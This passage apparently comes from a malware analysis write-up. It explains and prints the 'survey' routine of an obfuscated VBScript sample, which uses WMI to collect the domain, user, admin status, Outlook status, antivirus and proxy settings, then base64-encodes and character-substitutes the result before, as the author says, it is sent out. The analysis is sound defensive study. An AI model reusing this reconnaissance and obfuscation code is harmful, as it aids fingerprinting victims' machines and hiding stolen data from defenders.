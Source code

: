 
#### Survey Data

The data that is sent out is an obfuscated string. First, it collects a bunch
of information:

    
    
        hhhhhhhh = "winmgmts:\\.\root\cimv2"
        iiiiiiiii = "winmgmts:{impersonationLevel=impersonate}!\\"
        jjjjjjjj = "\root\SecurityCenter2"
        kkkkkkk = "Select * frOm AntiVir"
        llllllllll = "usProduct"
        mmmmmmm = "Select * from Win32_ComputerSystem"
        nnnnnnn = "WinNTSystemInfo"
        oooooo = "\root\default:StdRegProv"
        ppppppp = "winmgmts://"
        qqqqqqq = "u="
        rrrrrr = "&d="
        ttttttt = "&isA="
        ssssssssss = "&out="
        uuuuuuu = "&av="
        vvvvvvvv = "&Proxy="
        Const strComputer = "."
        Set objWMISvc = GetObject(hhhhhhhh)
        Set AVWMI = GetObject(iiiiiiiii & strComputer & jjjjjjjj)
        Set colItemsAV = AVWMI.ExecQuery(kkkkkkk & llllllllll)
        Set colItemsDOM = objWMISvc.ExecQuery(mmmmmmm)
        Set objSysInfo = CreateObject(nnnnnnn)
        Set oReg = GetObject(iiiiiiiii & strComputer & oooooo)
        strObject = ppppppp & strComputer
        ddddddDDD = GetDomain(objWMISvc, colItemsDOM)
        uuuUU1 = GetUser(objSysInfo)
        iissAAA = IsLocalAdmin(objSysInfo)
        Outout = IsOutlookRunning(objWMISvc)
        aAAVVv = GetAV(colItemsAV)
        pPPPRRr = GetProxy(oReg)
    

Then it combines it all into a string, and calls `btoa` to base64 encode it:

    
    
        Str = btoa(qqqqqqq & uuuUU1 & rrrrrr & ddddddDDD & ttttttt & iissAAA & ssssssssss & Outout & uuuuuuu & aAAVVv & vvvvvvvv & pPPPRRr)
    

Then, it obfuscates further by replacing a bunch of characters with
punctuation:

    
    
        Str = Replace(Str, "A", ":")
        Str = Replace(Str, "a", "~")
        Str = Replace(Str, "B", "%")
        Str = Replace(Str, "b", "*")
        Str = Replace(Str, "C", "{")
        Str = Replace(Str, "c", "-")
        Str = Replace(Str, "D", "}")
        Str = Replace(Str, "1", "]")
        Str = Replace(Str, "2", "[")
        Str = Replace(Str, "3", "$")
        Str = Replace(Str, "=", "&")
        BuildQuery = Str
    